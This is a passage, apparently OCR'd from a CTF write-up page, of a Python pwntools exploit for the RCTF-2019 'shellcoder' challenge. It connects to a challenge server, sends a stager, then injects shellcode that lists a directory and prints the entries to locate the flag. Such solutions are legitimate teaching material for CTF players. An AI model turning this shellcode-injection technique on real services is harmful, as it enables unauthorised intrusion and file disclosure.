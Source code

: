 ```python
			f.append(data[d+0x12:d+0x12+namelen])
		d+=reclen
	return res,f
def push_path(path):
	d=0
	l=len(path)
	path+=(-l%8)*'\x00'
	pad='''
	mov rsi,{}
	push rsi	
	'''
	res=''
	while(d<len(path)):
		res=pad.format(hex(u64(path[d:d+8])))+res
		d+=8
	return res
def exp(seek,flag=0):	
	#context.log_level='debug'
	#p=process('./shellcoder')
	#gdb.attach(p)
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)


	#print push_path("./flag")
	#raw_input()
	sh='''
	mov ax,0x101
	mov rdi,-0x64
	{}
	mov rsi,rsp
	mov rdx,0
	mov r10,0
	syscall

	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x200
	xor rax,rax
	mov al,78
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x400
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	p.close()
	r,f=getinfo(data,flag)
	p.close()
	return r,f

```

[1]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/shellcoder
[2]: https://cloud.tencent.com/developer/article/1143454